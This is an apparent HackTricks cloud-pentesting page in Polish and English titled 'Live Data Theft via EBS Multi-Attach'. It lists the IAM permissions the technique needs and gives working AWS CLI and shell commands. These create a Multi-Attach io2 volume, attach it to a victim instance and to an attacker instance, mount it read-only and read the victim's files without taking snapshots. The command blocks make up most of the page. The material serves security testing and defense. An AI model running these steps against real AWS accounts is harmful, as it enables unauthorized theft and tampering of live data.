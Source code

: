 # AWS - Live Data Theft via EBS Multi-Attach

{{#include ../../../../banners/hacktricks-training.md}}

## Summary
Wykorzystaj EBS Multi-Attach, aby odczytać żywy wolumin danych io1/io2, dołączając ten sam wolumin do instancji kontrolowanej przez atakującego w tej samej Availability Zone (AZ). Zamontowanie udostępnionego woluminu w trybie read-only daje natychmiastowy dostęp do plików będących w użyciu bez tworzenia snapshotów.

## Requirements
- Target volume: io1 lub io2 utworzony z `--multi-attach-enabled` w tej samej AZ co instancja atakującego.
- Permissions: `ec2:AttachVolume`, `ec2:DescribeVolumes`, `ec2:DescribeInstances` na docelowym woluminie/instancjach.
- Infrastructure: typy instancji oparte na Nitro, które wspierają Multi-Attach (rodziny C5/M5/R5 itp.).

## Notes
- Montuj w trybie read-only z `-o ro,noload`, aby zmniejszyć ryzyko uszkodzenia i uniknąć odtwarzania dzienników.
- Na instancjach Nitro urządzenie EBS NVMe eksponuje stabilną ścieżkę `/dev/disk/by-id/nvme-Amazon_Elastic_Block_Store_vol...` (pomoc poniżej).

## Prepare a Multi-Attach io2 volume and attach to victim

Przykład (utwórz w `us-east-1a` i dołącz do ofiary):
```bash
AZ=us-east-1a
# Create io2 volume with Multi-Attach enabled
VOL_ID=$(aws ec2 create-volume \
--size 10 \
--volume-type io2 \
--iops 1000 \
--availability-zone $AZ \
--multi-attach-enabled \
--tag-specifications 'ResourceType=volume,Tags=[{Key=Name,Value=multi-shared}]' \
--query 'VolumeId' --output text)

# Attach to victim instance
aws ec2 attach-volume --volume-id $VOL_ID --instance-id $VICTIM_INSTANCE --device /dev/sdf
```
Na maszynie ofiary sformatuj/zamontuj nowy wolumin i zapisz dane wrażliwe (ilustracyjnie):
```bash
VOLNOHYP="vol${VOL_ID#vol-}"
DEV="/dev/disk/by-id/nvme-Amazon_Elastic_Block_Store_${VOLNOHYP}"
sudo mkfs.ext4 -F "$DEV"
sudo mkdir -p /mnt/shared
sudo mount "$DEV" /mnt/shared
echo 'secret-token-ABC123' | sudo tee /mnt/shared/secret.txt
sudo sync
```
## Dołącz ten sam wolumin do instancji atakującej
```bash
aws ec2 attach-volume --volume-id $VOL_ID --instance-id $ATTACKER_INSTANCE --device /dev/sdf
```
## Zamontuj w trybie tylko do odczytu na maszynie atakującego i odczytaj dane
```bash
VOLNOHYP="vol${VOL_ID#vol-}"
DEV="/dev/disk/by-id/nvme-Amazon_Elastic_Block_Store_${VOLNOHYP}"
sudo mkdir -p /mnt/steal
sudo mount -o ro,noload "$DEV" /mnt/steal
sudo cat /mnt/steal/secret.txt
```
Oczekiwany rezultat: Ten sam `VOL_ID` pokazuje wiele `Attachments` (victim and attacker) i attacker może odczytać pliki zapisane przez victim bez tworzenia żadnego snapshotu.
```bash
aws ec2 describe-volumes --volume-ids $VOL_ID \
--query 'Volumes[0].Attachments[*].{InstanceId:InstanceId,State:State,Device:Device}'
```
<details>
<summary>Pomocnik: znajdź ścieżkę urządzenia NVMe według ID wolumenu</summary>

Na instancjach Nitro użyj stabilnej ścieżki by-id, która osadza ID wolumenu (usuń myślnik po `vol`):
</details>
```bash
VOLNOHYP="vol${VOL_ID#vol-}"
ls -l /dev/disk/by-id/ | grep "$VOLNOHYP"
# -> nvme-Amazon_Elastic_Block_Store_volXXXXXXXX...
```
</details>

## Wpływ
- Natychmiastowy dostęp do danych na żywo na docelowym woluminie EBS bez tworzenia snapshotów.
- Jeśli zamontowany z uprawnieniami read-write, atakujący może manipulować systemem plików ofiary (ryzyko uszkodzenia).

{{#include ../../../../banners/hacktricks-training.md}}
